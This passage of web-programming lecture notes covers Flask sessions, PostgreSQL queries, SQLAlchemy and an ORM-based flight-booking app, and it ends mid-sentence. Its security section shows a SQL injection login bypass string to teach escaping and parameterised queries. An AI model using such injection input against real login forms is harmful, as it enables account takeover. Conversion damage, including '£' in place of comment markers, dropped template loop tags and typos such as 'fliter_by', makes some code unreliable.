-   Sessions are how Flask can keep track of data that pertains to a
    particular user. Let's take a note-taking app, for example. Users
    should only be able to see their own notes.

-   To use sessions, they must be imported and set up:

> from flask import Flask, render_template, request, session &pound; gives
> access to a variable called &apos;session&apos;
>
> &pound; which can be used to keep values that are specific to a particular
> user
>
> from flask_session import Session &pound; an additional extension to
> sessions which allows them
>
> &pound; to be stored server-side
>
> app.config&lbrack;&quot;SESSION_PERMANENT&quot;&rbrack; = False
>
> app.config&lbrack;&quot;SESSION_TYPE&quot;&rbrack; = &quot;filesystem&quot;
>
> Session(app)

-   Then, assuming there is some HTML form that can submit a note, the
    note can be stored in a place specific to the user using their
    session:

> &commat;app.route(&quot;/&quot;, methods=&lbrack;&quot;GET&quot;, &quot;POST&quot;&rbrack;)
>
> def index():
>
> if session.get(&quot;notes&quot;) is None:
>
> session&lbrack;&quot;notes&quot;&rbrack; = &lbrack;&rbrack;
>
> if request.method == &quot;POST&quot;:
>
> note = request.form.get(&quot;note&quot;)
>
> session&lbrack;&quot;notes&quot;&rbrack;.append(note)
>
> return render_template(&quot;index.html&quot;, notes=session&lbrack;&quot;notes&quot;&rbrack;)

-   notes is the list where the notes will be stored. If the user
    doesn't have a notes list already (checked with if
    session.get(&quot;notes&quot;) is None), then they are given an empty one.

-   If a request is submitted via &quot;POST&quot; (that is, through the form),
    then the note is processed from the form in the same way as before.

-   The processed note, now in a Python variable called note, is
    appended to the notes list. This list is itself inside
    a dict called session. Every user has a unique session dict, and
    therefore a unique notes list.

-   Finally, the notelist is rendered by
    passing session&lbrack;&quot;notes&quot;&rbrack; to render_template.

> {width="1.7437685914260717in"
> height="0.6833333333333333in"}
>
> https://flask.palletsprojects.com/en/1.1.x/
>
> [Flask](http://flask.pocoo.org/) ([source
> code](https://github.com/pallets/flask)) is a Python [web
> framework](https://www.fullstackpython.com/web-frameworks.html) built
> with a [small core and easy-to-extend
> philosophy](http://flask.pocoo.org/docs/design/).

### Why is Flask a good web framework choice?

> Flask is considered
> more [Pythonic](http://blog.startifact.com/posts/older/what-is-pythonic.html) than
> the [Django](https://www.fullstackpython.com/django.html) web
> framework because in common situations the equivalent Flask web
> application is more explicit. Flask is also easy to get started with
> as a beginner because there is little boilerplate code for getting a
> simple app up and running.
>
> [flask.pocoo.org](http://flask.pocoo.org/)
>
> Flask is a micro web framework written in Python. It is classified as
> a microframework because it does not require particular tools or
> libraries. It has no database abstraction layer, form validation, or
> any other components where pre-existing third-party libraries provide
> common functions

1.  [SQL](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/557f43a718a147ab8ed221034b974759/)

> **Notes - Lecture 3: SQL -- PostGresSQL**

## Databases

-   Databases can be used to make it easier for web applications to
    store, use, and manipulate data. Particularly useful are relational
    databases; in other words, tables.

-   SQL (Structured Query Language) is a language designed to interact
    with these relational databases. In this class, PostgreSQL will be
    used, but there are many other versions with slightly different
    features.

## Using SQL

-   When making a database or table, it is important to note what type
    of data will be stored in a given column. Some SQL data types are:

    -   INTEGER

    -   DECIMAL

    -   SERIAL : an automatically incrementing integer

    -   VARCHAR : variable length of characters, i.e. string

    -   TIMESTAMP

    -   BOOLEAN

    -   ENUM : one of a discrete number of possible values

-   In addition to a data type, columns can also have a variety of other
    constraints:

    -   NOT NULL : field must have a value; if field does not have a
        value, entry will be rejected

    -   UNIQUE : no two fields in this column can have the same value

    -   PRIMARY KEY : the main way to index a table

    -   DEFAULT : set a default value for a column if no other value is
        given

    -   CHECK : bound values; e.g. values greater than 50

-   In order to get a database running, a Postgres server must be set
    up. To start a server locally on a computer, use the command psql
    &lt;database&gt;. To connect to an online server, use psql
    &lt;databaseURL&gt;.

-   After starting up Postgres server, SQL commands can be entered
    directly into the terminal. Some other useful commands include:

    -   \\d : print all the different parts of the current database

### Basic Operations

-   Creating a table:

-   CREATE TABLE flights (

-   id SERIAL PRIMARY KEY,

-   origin VARCHAR NOT NULL,

-   destination VARCHAR NOT NULL,

-   duration INTEGER NOT NULL

-   );

-   Inserting data into a table:

-   INSERT INTO flights

-   (origin, destination, duration)

-   VALUES (&apos;New York&apos;, &apos;London&apos;, 415);

    -   Note that there is no id field. Because id is of type SERIAL, it
        will increment and be set automatically.

    -   The order of values in VALUES must match the order listed
        earlier in the command.

    -   This command could also be entered all in one line.

-   Reading data from a table:

-   SELECT &ast; FROM flights;

-   SELECT origin, destination FROM flights;

-   SELECT &ast; FROM flights WHERE id = 3;

-   SELECT &ast; FROM flights WHERE origin = &apos;New York&apos;;

-   SELECT &ast; FROM flights WHERE duration &gt; 500;

-   SELECT &ast; FROM flights WHERE destination = &apos;Paris&apos; AND duration &gt;
    500;

-   SELECT &ast; FROM flights WHERE destination = &apos;Paris&apos; OR duration &gt;
    500;

-   SELECT AVG(duration) FROM flights WHERE origin = &apos;New York&apos;;

-   SELECT &ast; FROM flights WHERE origin LIKE &apos;%a%&apos;;

-   SELECT &ast; FROM flights LIMIT 2;

-   SELECT &ast; FROM flights ORDER BY duration ASC;

-   SELECT &ast; FROM flights ORDER BY duration ASC LIMIT 3;

-   SELECT origin, COUNT(&ast;) FROM flights GROUP BY origin;

-   SELECT origin, COUNT(&ast;) FROM flights GROUP BY origin HAVING
    COUNT(&ast;) &gt; 1;

    -   The query after SELECT indicates what columns are being
        selected.

    -   The query after WHERE indicates constraints on what rows are
        being selected.

    -   &ast; is a wildcard that indicates all.

    -   If a SQL function is passed as a column selector, a column with
        the return value of that function will be returned. Useful
        functions include:

        -   AVG(column) : returns the average value

        -   COUNT(&ast;) : returns the number of rows returned by the
            database

        -   MIN(column) : returns the minimum value

        -   MAX(column) : returns the maximum value

    -   LIKE is a keyword that takes a template string and returns all
        rows where the column fits that template. % is a wildcard that
        will match any text. In the example above, any row with an "a"
        in the origin column will be returned.

    -   LIMIT sets the maximum number of rows to be returned.

    -   ORDER BY organizes rows by a given column in either ascending
        (ASC) or descending (DESC) order before returning rows.

    -   GROUP BY organizes rows by grouping the same values in a given
        column together.

    -   HAVING is an optional specifier for GROUP BY which limits what
        rows are going to be returned, similar to WHERE.

-   Updating data in a table:

-   UPDATE flights

-   SET duration = 430

-   WHERE origin = &apos;New York&apos;

-   AND destination = &apos;London&apos;;

    -   SET overwrites a column in all the rows that match
        the WHERE query.

-   Deleting data from a table:

-   DELETE FROM flights

-   WHERE destination = &apos;Tokyo&apos;

###  {width="5.28125in" height="3.1145833333333335in"}

### Relating Tables and Compound Queries

-   SQL is a relational database, which means that tables inside a
    database can be related to each other in some way. In order to do
    so, we can reference, say, the id column of one table A in some
    other column of table B. Inside table B, the id value (which
    corresponds to table A) is called a "foreign key".

-   Here's an example to help demonstrate tables related by foreign
    keys:

-   CREATE TABLE passengers (

-   id SERIAL PRIMARY KEY,

-   name VARCHAR NOT NULL,

-   flight_id INTEGER REFERENCES flights

-   );

    -   flight_id is marked as being a foreign key for the
        table flights with REFERENCES flights. Since id is the PRIMARY
        KEY for flights, that is the column that is flights_id will map
        to by default.

-   Once these two tables are created, they can be queried
    simultaneously:

-   SELECT origin, destination, name FROM flights JOIN passengers ON
    passengers.flight_id = flights.id;

-   SELECT origin, destination, name FROM flights JOIN passengers ON
    passengers.flight_id = flights.id WHERE name = &apos;Alice&apos;;

-   SELECT origin, destination, name FROM flights LEFT JOIN passengers
    ON passengers.flight_id = flights.id;

    -   JOIN indicates that tables flights and passengers are being
        queried together.

    -   JOIN performs an "inner join": only rows where both tables match
        the query will be returned. In this example, only flights with
        passengers will be returned.

    -   ON indicates how the two tables are related. In this example,
        the column flight_id in passengers reflects values in the
        column id in flights.

    -   As before, queries can be constrained with WHERE.

    -   LEFT JOIN includes rows from the first table listed even if
        there is no match (e.g. there are no passengers on that
        flight). RIGHT JOIN is analogous (e.g. passengers with no
        flights).

-   When databases get large, it is often useful to "index" them, which
    makes it faster to quickly reference a given column in a table any
    time a SELECT query is made. Note, however, that this takes extra
    space, as well as time. When updating the table, the index must be
    updated as well. It is therefore unwise to index every column of
    every table unnecessarily.

-   Nested queries are yet another way to make more complex selections:

-   SELECT &ast; FROM flights WHERE id IN

-   (SELECT flight_id FROM passengers GROUP BY flight_id HAVING
    COUNT(&ast;) &gt; 1);

    -   First, in the inner query, a table containing flight_id for
        flights with more than 1 passenger will be returned.

    -   Then, in the outer query, all rows from flights will be selected
        that have an id in the table returned by the inner query.

    -   In other words, this nested query returns flight info for
        flights with more than 1 passenger.

### Security Concerns

-   One potential concern when using SQL is that a user will be able to
    enter malicious commands into a database. Take, for example, a
    simple login form that asks for a password and username. What the
    user enters in those fields might be put into a SQL command to
    select their account from a table of accounts like so:

-   SELECT &ast; FROM users

-   WHERE (username = &apos;username&apos;)

-   AND (password = &apos;password&apos;)

-   If someone guesses that there is SQL code like that above running
    behind the scenes, they could potentially gain access to someone
    else's account by entering the follwing as their password: 1&apos; OR
    &apos;1&apos; = &apos;1. While this may look strange out of context, when it's
    processed into the SELECT query, this is the result:

-   SELECT &ast; FROM users

-   WHERE (username = &apos;hacker&apos;)

-   AND (password = &apos;1&apos; OR &apos;1&apos; = &apos;1&apos;);

    -   By putting single-quotes in smart places, the user cleverly
        edited the SQL query. &apos;1&apos; is always equal to &apos;1&apos;, so it
        doesn't matter what the user's password is. The account with
        username hacker will still be returned.

-   In order to prevent these so-called "SQL injection attacks", it is
    important to ˜sanitize" any user input that is going into a SQL
    command. This means properly ˜escaping" characters like &apos;, which
    can drastically change the meaning of the command, so that it is
    interpreted as simply the &apos; character. Otherwise, there is the risk
    of malicious users editing or even deleting entire databases in this
    way.

-   Another way that things can go wrong is if two users try to modify
    or access a database at the same time, and SQL commands get executed
    in an unexpected order. This is the problem of "race conditions".
    Consider a case where a bank information is stored in a database and
    two customers, who share an account, try to make withdrawals
    simultaneously. The SQL commands that get executed when money is
    withdrawn might look like this:

-   SELECT balance FROM bank WHERE user_id = 1;

-   UPDATE bank SET balance = balance - 100 WHERE user_id = 1;

    -   First, the customer's balance must be checked to make sure that
        they have enough money.

    -   Then, the balance is updated to reflect their withdrawal.

-   Since each command takes some amount of time to run, it is possible
    that two customers at two ATMs make withdrawals with just the right
    timing so that the customer's SELECT query runs before
    customer's UPDATE query. Even though customer A might already have
    taken the last &dollar;100 in the account, since the database hasn't been
    updated, when customer B asks for &dollar;100, the database will allow the
    withdrawal.

-   The solution to race conditions is to implement SQL
    **transactions**. During a transaction, the database is essentially
    locked so that another user cannot make a request until it is
    complete. A transaction is opened with **BEGIN** and closed
    with **COMMIT**.

## Python and SQL

-   In order to integrate these databases into web applications, the
    Python code running the web server must also be able to run SQL
    commands. SQLAlchemy is a Python library that allows for this
    functionality.

-   Starting with simple Python outside of a web context, here's how one
    might go about printing all the flights in the flights table:

-   import os

-   

-   from sqlalchemy import create_engine

-   from sqlalchemy.orm import scoped_session, sessionmaker

-   

-   engine = create_engine(os.getenv(&quot;DATABASE_URL&quot;)) &pound; database
    engine object from SQLAlchemy that manages connections to the
    database

-   &pound; DATABASE_URL is an environment variable that indicates where the
    database lives

-   db = scoped_session(sessionmaker(bind=engine)) &pound; create a &apos;scoped
    session&apos; that ensures different users&apos; interactions with the

-   &pound; database are kept separate

-   

-   flights = db.execute(&quot;SELECT origin, destination, duration FROM
    flights&quot;).fetchall() &pound; execute this SQL command and return all of
    the results

-   for flight in flights

-   print(f&quot;{flight.origin} to {flight.destination}, {flight.duration}
    minutes.&quot;) &pound; for every flight, print out the flight info

    -   flights is a list of the rows the came back from the SQL query.
        The individual columns in each row can be accessed with dot
        notation.

-   Data can also be inserted into a database with Python. In this
    example, the raw data is coming from a CSV (comma-separated values)
    file:

-   import csv

-   

-   &pound; same import and setup statements as above

-   

-   f = open(&quot;flights.csv&quot;)

-   reader = csv.reader(f)

-   for origin, destination, duration in reader: &pound; loop gives each
    column a name

-   db.execute(&quot;INSERT INTO flights (origin, destination, duration)
    VALUES (:origin, :destination, :duration)&quot;,

-   {&quot;origin&quot;: origin, &quot;destination&quot;: destination, &quot;duration&quot;:
    duration}) &pound; substitute values from CSV line into SQL command, as
    per this dict

-   print(f&quot;Added flight from {origin} to {destination} lasting
    {duration} minutes.&quot;)

-   db.commit() &pound; transactions are assumed, so close the transaction
    finished

    -   The colon notation used in db.execute() call is Postgres'
        placeholder notation for values. This allows for the
        substitution of Python variables into SQL commands.
        Additionally, SQLAlchemy automatically takes care of sanitizing
        the values passed in.

### Incorporating SQL into Web Applications with Flask

-   Everything discussed so far can be implemented in the exact same way
    inside a Flask application. Some of the code to add
    to application.py (along with the necessary import and set up
    statements) could look like this:

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   flights = db.execute(&quot;SELECT &ast; FROM flights&quot;).fetchall()

-   return render_template(&quot;index.html&quot;, flights=flights)

-   

-   &commat;app.route(&quot;/book&quot;, methods=&lbrack;&quot;POST&quot;&rbrack;)

-   def book():

-   &pound; Get form information.

-   name = request.form.get(&quot;name&quot;)

-   try:

-   flight_id = int(request.form.get(&quot;flight_id&quot;))

-   except ValueError:

-   return render_template(&quot;error.html&quot;, message=&quot;Invalid flight
    number.&quot;)

-   

-   &pound; Make sure the flight exists.

-   if db.execute(&quot;SELECT &ast; FROM flights WHERE id = :id&quot;, {&quot;id&quot;:
    flight_id}).rowcount == 0:

-   return render_template(&quot;error.html&quot;, message=&quot;No such flight with
    that id.&quot;)

-   db.execute(&quot;INSERT INTO passengers (name, flight_id) VALUES (:name,
    :flight_id)&quot;,

-   {&quot;name&quot;: name, &quot;flight_id&quot;: flight_id})

-   db.commit()

-   return render_template(&quot;success.html&quot;)

    -   The try block of code is always run. If there is an error, and
        in particular, a ValueError, the code in the except block is
        run. The program's flow then continues as normal.

    -   rowcount is a SQLAlchemy feature that is a property of
        db.execute(), which is equal the number of rows returned by the
        query.

    -   error.html and success.html could be generic templates that
        render the error message and some success statement,
        respectively.

-   The corresponding index.html:

-   

-   &lt;form action=&quot;{{ url_for(&apos;book&apos;) }}&quot; method=&quot;post&quot;&gt;

-   

-   &lt;div class=&quot;form-group&quot;&gt;

-   &lt;select class=&quot;form-control&quot; name=&quot;flight_id&quot;&gt;

-   

-   &lt;option value=&quot;{{ flight.id }}&quot;&gt;{{ flight.origin }} to {{
    flight.destination }}&lt;/option&gt;

-   

-   &lt;/select&gt;

-   &lt;/div&gt;

-   

-   &lt;div class=&quot;form-group&quot;&gt;

-   &lt;input class=&quot;form-control&quot; name=&quot;name&quot; placeholder=&quot;Passenger
    Name&quot;&gt;

-   &lt;/div&gt;

-   

-   &lt;div class=&quot;form-group&quot;&gt;

-   &lt;button class=&quot;btn btn-primary&quot;&gt;Book Flight&lt;/button&gt;

-   &lt;/div&gt;

-   

-   &lt;/form&gt;

-   -   Note that some elements, such as the form-control class, are
        Bootstrap components.

    -   name attributes are relevant for referencing them in Python
        code.

    -   As is shown, the same dot notation that can be used in Python
        can also be used in Jinja2 templating.

-   Taking this example one step further, it is possible to set up
    individual web pages for each flight that display some information
    about that flight. Here's some Python code that would take care of
    the routing for these new pages:

-   &commat;app.route(&quot;/flights&quot;)

-   def flights():

-   flights = db.execute(&quot;SELECT &ast; FROM flights&quot;).fetchall()

-   return render_template(&quot;flights.html&quot;, flights=flights)

-   

-   &commat;app.route(&quot;/flights/&lt;int:flight_id&gt;&quot;)

-   def flight(flight_id):

-   &pound; Make sure flight exists.

-   flight = db.execute(&quot;SELECT &ast; FROM flights WHERE id = :id&quot;,
    {&quot;id&quot;: flight_id}).fetchone()

-   if flight is None:

-   return render_template(&quot;error.html&quot;, message=&quot;No such flight.&quot;)

-   

-   &pound; Get all passengers.

-   passengers = db.execute(&quot;SELECT name FROM passengers WHERE
    flight_id = :flight_id&quot;,

-   {&quot;flight_id&quot;: flight_id}).fetchall()

-   return render_template(&quot;flight.html&quot;, flight=flight,
    passengers=passengers)

    -   /flights is a going to be a generic route to simply display a
        list of all flights.

    -   Additionally, /flights/&lt;int:flight_id&gt; provides for any
        individual flight's info page. &lt;int:flight_id&gt; is a variable
        that is going to passed to Flask by the HTML in flights.html.
        This variable is then passed to the flight function, which
        passes the id into a SQL query to get all the info about the
        flight, including all of the passengers on that flight.

-   flights.html:

-   

-   &lt;ul&gt;

-   

-   &lt;li&gt;

-   &lt;a href=&quot;{{ url_for(&apos;flight&apos;, flight_id=flight.id) }}&quot;&gt;

-   {{ flight.origin }} to {{ flight.destination }}

-   &lt;/a&gt;

-   &lt;/li&gt;

-   

-   &lt;/ul&gt;

-   -   It's in the link here that flight.id, which is an column from
        the row flight, which comes from looping through flights, which
        in turn was passed in from the Python code for /flights. It's
        given the variable name flight_id, which is what the python
        route for /flights/&lt;int:flight_id&gt; expects.

-   flight.html:

-   

-   &lt;h1&gt;Flight Details&lt;/h1&gt;

-   

-   &lt;ul&gt;

-   &lt;li&gt;Origin: {{ flight.origin }}&lt;/li&gt;

-   &lt;li&gt;Destination: {{ flight.destination }}&lt;/li&gt;

-   &lt;li&gt;Duration: {{ flight.duration}} minutes&lt;/li&gt;

-   &lt;/ul&gt;

-   

-   &lt;h2&gt;Passengers&lt;/h2&gt;

-   &lt;ul&gt;

-   

-   &lt;li&gt;{{ passenger.name }}&lt;/li&gt;

-   

-   &lt;li&gt;No passengers.&lt;/li&gt;

-   

-   &lt;/ul&gt;

-   -   The only new piece here is using  with a for-loop to
        account for the case where passengers is empty.

    1.  [ORMs,
        APIs](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/c5f10dc2fb5e457088720de0393a19a1/)

> **[Notes - Lecture 4: ORMs, APIs]**

## Object-Oriented Programming

-   Python, along with many other programming languages, use
    Object-Oriented Programming (OOP). An "object" is a discrete item.
    OOP allows for the creation of classes, which are the generic forms
    of objects. For example, a "flight" class is defines all the
    components which describe a flight, as well as actions that a flight
    should be able to take, such as adding a passenger. Similarly, a
    passenger class would represent the generic idea of passenger,
    defined by a name and associated with a flight, perhaps.

-   Here's a simple example of a Python class.

-   class Flight:

-   

-   def &lowbar;&lowbar;init&lowbar;&lowbar;(self, origin, destination, duration):

-   self.origin = origin

-   self.destination = destination

-   self.duration = duration

    -   &lowbar;&lowbar;init&lowbar;&lowbar; is a "method", which is a function performed on
        individual objects. &lowbar;&lowbar;init&lowbar;&lowbar; in particular is a special,
        built-in method that describes what should happen when a flight
        object is created.

    -   Generally, methods take self as their first
        argument. self refers to the object being worked with. The other
        three arguments are simply the information that should be stored
        about a particular flight. That information is stored as
        "properties" inside the object, using dot notation.

-   Here's how the Flight class might be used:

-   &pound; Create flight.

-   f = Flight(origin=&quot;New York&quot;, destination=&quot;Paris&quot;, duration=540)

-   

-   &pound; Change the value of a propety.

-   f.duration += 10

-   

-   &pound; Print details about flight.

-   print(f.origin)

-   print(f.destination)

-   print(f.duration)

    -   Note that only flight information is passed in to Flight();
        the self argument to the &lowbar;&lowbar;init&lowbar;&lowbar; method is automatically
        specified.

    -   f is a variable of type Flight, just like a variable might be of
        type str or int.

-   Additional methods can be added to the Flight class:

-   class Flight:

-   

-   &pound; assume same &lowbar;&lowbar;init&lowbar;&lowbar; method

-   

-   def print_info(self):

-   print(f&quot;Flight origin: {self.origin}&quot;)

-   print(f&quot;Flight destination: {self.destination}&quot;)

-   print(f&quot;Flight duration: {self.duration}&quot;)

-   

-   def main():

-   f1 = Flight(origin=&quot;New York&quot;, destination=&quot;Paris&quot;,
    duration=540)

-   f1.print_info()

    -   Now, this functionality of printing out flight info can be used
        with any flight object that might be created. Each
        time, self refers to the object that the method is being called
        on. In this example, that's f1.

-   Methods can also take additional arguments and modify properties.

-   def delay(self, amount):

-   self.duration += amount

    -   Note that writing methods like delay and print_info, as well
        just the idea of Flight class in general, allow for abstraction.
        The Flight class and all of its methods can be used in a logical
        and easily understood way without needing to know or even
        understand how Flight may be implemented.

-   Given a simple Passenger class¦

-   class Passenger:

-   

-   def &lowbar;&lowbar;init&lowbar;&lowbar;(self, name):

-   self.name = name

-   A more complex Flight class can be implemented.

-   class Flight:

-   

-   counter = 1

-   

-   def &lowbar;&lowbar;init&lowbar;&lowbar;(self, origin, destination, duration):

-   

-   &pound; Keep track of id number.

-   self.id = Flight.counter

-   Flight.counter += 1

-   

-   &pound; Keep track of passengers.

-   self.passengers = &lbrack;&rbrack;

-   

-   &pound; Details about flight.

-   self.origin = origin

-   self.destination = destination

-   self.duration = duration

-   

-   def print_info(self):

-   print(f&quot;Flight origin: {self.origin}&quot;)

-   print(f&quot;Flight destination: {self.destination}&quot;)

-   print(f&quot;Flight duration: {self.duration}&quot;)

-   

-   print()

-   print(&quot;Passengers:&quot;)

-   for passenger in self.passengers:

-   print(f&quot;{passenger.name}&quot;)

-   

-   def add_passenger(self, p):

-   self.passengers.append(p)

-   p.flight_id = self.id

    -   Note that counter is defined outside of
        the &lowbar;&lowbar;init&lowbar;&lowbar; function and is not specific to individual
        flights (it's not defined as self.counter. This means that all
        flight objects can see this same counter variable, which allows
        for the implementation the id property shown here. Similar to
        the SQL database which had an auto-incrementing id column,
        the id property of flights will automatically incrememt as new
        flight objects are created.

    -   The passengers property of Flights is going to be a list
        of Passenger objects.

    -   In add_passenger, p.flight_id is created, because flight_id is
        not defined in the Passenger class's &lowbar;&lowbar;init&lowbar;&lowbar;.

-   Here's how the more advanced Flight class could be used:

-   &pound; Create flight.

-   f1 = Flight(origin=&quot;New York&quot;, destination=&quot;Paris&quot;,
    duration=540)

-   

-   &pound; Create passengers.

-   alice = Passenger(name=&quot;Alice&quot;)

-   bob = Passenger(name=&quot;Bob&quot;)

-   

-   &pound; Add passengers.

-   f1.add_passenger(alice)

-   f1.add_passenger(bob)

-   

-   f1.print_info()

### Object Relational Mapping

-   Object-Relational Mapping, or ORM, allows for the combination of the
    OOP world of Python and the relational database world of SQL. With
    ORM, Python classes, methods, and objects become the tools for
    interacting with SQL databases. To do this, the Flask-SQLAlchemy
    package will be used.

-   The basic setup, inside models.py:

-   from flask_sqlalchemy import SQLAlchemy

-   

-   db = SQLAlchemy()

-   

-   class Flight(db.Model):

-   &lowbar;&lowbar;tablename&lowbar;&lowbar; = &quot;flights&quot;

-   id = db.Column(db.Integer, primary_key=True)

-   origin = db.Column(db.String, nullable=False)

-   destination = db.Column(db.String, nullable=False)

-   duration = db.Column(db.Integer, nullable=False)

-   

-   

-   class Passenger(db.Model):

-   &lowbar;&lowbar;tablename&lowbar;&lowbar; = &quot;passengers&quot;

-   id = db.Column(db.Integer, primary_key=True)

-   name = db.Column(db.String, nullable=False)

-   flight_id = db.Column(db.Integer, db.ForeignKey(&quot;flights.id&quot;),
    nullable=False)

    -   For any table inside of the database, there is one class defined
        inside models.py.

    -   Adding db.Model in parentheses after class names indicates that
        these classes "inherit" from db.Model. The details of
        inheritance are unimportant right now; simply, this allows for
        the class to have some built-in relationship with SQLAlchemy to
        interact with the database.

    -   &lowbar;&lowbar;tablename&lowbar;&lowbar; naturally corresponds with the table name
        inside the database.

    -   Every property is defined as a db.Column, which will become
        columns in the table. The arguments to db.Column are naturally
        similar to those use for table creation in SQL.

    -   Note that flights.id is marked as a foreign key using
        the &lowbar;&lowbar;tablename&lowbar;&lowbar; flights, not the class name Flight.

-   Now that there's a defined structure for how the tables should look,
    they can be created inside a Flask application.

-   import os

-   

-   from flask import Flask, render_template, request

-   

-   &pound; Import table definitions.

-   from models import &ast;

-   

-   app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)

-   

-   &pound; Tell Flask what SQLAlchemy databas to use.

-   app.config&lbrack;&quot;SQLALCHEMY_DATABASE_URI&quot;&rbrack; =
    os.getenv(&quot;DATABASE_URL&quot;)

-   app.config&lbrack;&quot;SQLALCHEMY_TRACK_MODIFICATIONS&quot;&rbrack; = False

-   

-   &pound; Link the Flask app with the database (no Flask app is actually
    being run yet).

-   db.init_app(app)

-   

-   def main():

-   &pound; Create tables based on each table definition in &apos;models&apos;

-   db.create_all()

-   

-   if &lowbar;&lowbar;name&lowbar;&lowbar; == &quot;&lowbar;&lowbar;main&lowbar;&lowbar;&quot;:

-   &pound; Allows for command line interaction with Flask application

-   with app.app_context():

-   main()

### Python Versions of SQL Queries

-   db.create_all() is the Python-Flask-SQLAlchemy's version of
    the CREATE SQL command.

-   SQL's INSERT¦

-   INSERT INTO flights

-   (origin, destination, duration)

-   VALUES (&apos;New York&apos;, &apos;Paris&apos;, 540)

-   ...¦and Python's INSERT.

-   flight = Flight(origin=&quot;New York&quot;, destination=&quot;Paris&quot;,
    duration=540)

-   db.session.add(flight)

    -   SQlAlchemy automatically takes care of SQL transactions
        with db.session.

-   SQL's SELECT¦

-   SELECT &ast; FROM flights;

-   SELECT &ast; FROM flights

-   WHERE origin = &apos;Paris&apos;;

-   SELECT &ast; FROM flights

-   WHERE origin = &apos;Paris&apos; LIMIT 1;

-   SELECT COUNT(&ast;) FROM flights

-   WHERE origin = &apos;Paris&apos;;

-   SELECT &ast; FROM flights WHERE id = 28;

-   SELECT &ast; FROM flights

-   ORDER BY origin;

-   SELECT &ast; FROM flights

-   ORDER by origin DESC;

-   SELECT &ast; FROM flights

-   WHERE origin != &apos;Paris&apos;;

-   SELECT &ast; FROM flights

-   WHERE origin LIKE &apos;%a%&apos;;

-   SELECT &ast; FROM flights

-   WHERE origin IN (&apos;Tokyo&apos;, &apos;Paris&apos;);

-   SELECT &ast; FROm flights

-   WHERE origin = &quot;Paris&quot;

-   AND duration &gt; 500;

-   SELECT &ast; FROm flights

-   WHERE origin = &quot;Paris&quot;

-   AND duration &gt; 500;

-   SELECT &ast; FROM flights JOIN passengers

-   ON flights.id = passengers.flight_id;

-   ...¦and Python's SELECT:

-   Flight.query.all()

-   Flight.query.fliter_by(origin=&quot;Paris&quot;).all()

-   Flight.query.filter_by(origin=&quot;Paris&quot;).first()

-   Flight.query.filter_by(origin=&quot;Paris&quot;).count()

-   Flight.query.get(28)

-   Flight.query.order_by(Flight.origin).all()

-   Flight.query.order_by(Flights.origin.desc()).all()

-   Flight.query.filter(Flight.origin != &quot;Paris&quot;).all()

-   Flight.query.filter(Fligiht.origin.like(&quot;%a%&quot;)).all()

-   Flight.query.filter(Flight.origin.in&lowbar;(&lbrack;&quot;Tokyo&quot;,
    &quot;Paris&quot;&rbrack;)).all()

-   Flight.query.filter(and&lowbar;(Flight.origin == &quot;Paris&quot;,
    Flight.duration &gt; 500)).all()

-   Flight.query.filter(or&lowbar;(Flight.origin == &quot;Paris&quot;, Flight.duration
    &gt; 500)).all()

-   db.session.query(Flight, Passenger).filter(Flight.id ==
    Passenger.flight_id).all()

-   SQL's UPDATE...¦

-   UPDATE flights SET duration = 280

-   WHERE id = 6;

-   ...¦and Python's UPDATE:

-   flight = Flight.query.get(6)

-   flight.duration = 280

-   SQL's DELETE&hellip;¦

-   DELETE FROM flights WHERE id = 28;

-   ...¦and Python's DELETE:

-   flight = Flight.query.get(28)

-   db.ksession.delete(flight)

-   Some other miscellaneous SQL commands¦

-   COMMIT;

-   

-   ...¦and their Python parallels.

-   db.session.commit()

-   Before, when importing data from a CSV file, SQL code had to be
    written directly into the Python file. Now, SQLAlchemy can take care
    of that behind the scenes.

-   import csv

-   

-   &pound; Same setup code as before.

-   

-   def main():

-   f = open(&quot;flights.csv&quot;)

-   reader = csv.reader(f)

-   for origin, destination, duration in reader:

-   flight = Flight(origin=origin, destination=destination,
    duration=duration)

-   db.session.add(flight)

-   print(f&quot;Added flight from {origin} to {destination} lasting
    {duration} minutes.&quot;)

-   db.session.commit()

### ORM Integrated into a Web Application

-   Putting it all together, here's the same web application from the
    end of Lecture 3, using SQLAlchemy. Note that there are no raw SQL
    commands. The power of ORM, classes, and objects is used to insert
    and select from the database.

-   from flask import Flask, render_template, request

-   from models import &ast;

-   

-   app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)

-   app.config&lbrack;&quot;SQLALCHEMY_DATABASE_URI&quot;&rbrack; =
    os.getenv(&quot;DATABASE_URL&quot;)

-   app.config&lbrack;&quot;SQLALCHEMY_TRACK_MODIFICATIONS&quot;&rbrack; = False

-   db.init_app(app)

-   

-   

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   flights = Flight.query.all()

-   return render_template(&quot;index.html&quot;, flights=flights)

-   

-   

-   &commat;app.route(&quot;/book&quot;, methods=&lbrack;&quot;POST&quot;&rbrack;)

-   def book():

-   &quot;&quot;&quot;Book a flight.&quot;&quot;&quot;

-   

-   &pound; Get form information.

-   name = request.form.get(&quot;name&quot;)

-   try:

-   flight_id = int(request.form.get(&quot;flight_id&quot;))

-   except ValueError:

-   return render_template(&quot;error.html&quot;, message=&quot;Invalid flight
    number.&quot;)

-   

-   &pound; Make sure the flight exists.

-   flight = Flight.query.get(flight_id)

-   if flight is None:

-   return render_template(&quot;error.html&quot;, message=&quot;No such flight with
    that id.&quot;)

-   

-   &pound; Add passenger.

-   passenger = Passenger(name=name, flight_id=flight_id)

-   db.session.add(passenger)

-   db.session.commit()

-   return render_template(&quot;success.html&quot;)

-   

-   

-   &commat;app.route(&quot;/flights&quot;)

-   def flights():

-   &quot;&quot;&quot;List all flights.&quot;&quot;&quot;

-   flights = Flight.query.all()

-   return render_template(&quot;flights.html&quot;, flights=flights)

-   

-   

-   &commat;app.route(&quot;/flights/&lt;int:flight_id&gt;&quot;)

-   def flight(flight_id):

-   &quot;&quot;&quot;List details about a single flight.&quot;&quot;&quot;

-   

-   &pound; Make sure flight exists.

-   flight = Flight.query.get(flight_id)

-   if flight is None:

-   return render_template(&quot;error.html&quot;, message=&quot;No such flight.&quot;)

-   

-   &pound; Get all passengers.

-   passengers = Passenger.query.filter_by(flight_id=flight_id).all()

-   return render_template(&quot;flight.html&quot;, flight=flight,
    passengers=passengers)

-   Because classes are flexible, whatever additional functionality the
